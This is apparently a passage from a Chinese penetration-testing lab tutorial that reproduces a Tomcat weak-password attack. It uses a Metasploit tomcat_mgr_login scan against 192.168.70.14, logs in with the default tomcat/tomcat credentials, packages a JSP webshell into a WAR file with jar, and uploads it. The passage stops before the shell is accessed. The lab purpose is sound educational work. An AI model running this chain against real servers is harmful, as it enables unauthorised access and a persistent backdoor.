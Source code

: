 #### 修改数据库连接配置文件

```
cd /usr/local/apache-tomcat-8.0.43/webapps/logistics
```

## 3、Tomcat 漏洞复现

### 5.**Tomcat 弱口令**

#### 启动tomcat

```
cd /usr/local/apache-tomcat-8.0.43/bin
./startup.sh
```

#### 检测 tomcat 弱口令

```
msfconsole
search tomcat
use auxiliary/scanner/http/tomcat_mgr_login
show options
set rhosts 192.168.70.14
set rport 8080
run
```

![image-20240715152330930](https://image.201068.xyz/assets/image-20240715152330930.png)

#### 点击 Manager App，进入管理页面

输入默认弱口令 

```
用户名：tomcat  
密码：tomcat
```

#### war包生成

打包一句话木马，这个时候我们得把我们的 `webshell` 给打成 `war` 包

```
jar -cvf shell.war "shell.jsp"
```

![image-20240715161645047](https://image.201068.xyz/assets/image-20240715161645047.png)

#### war 包部署，上传 war 包

![image-20240715161913759](https://image.201068.xyz/assets/image-20240715161913759.png)

访问地址
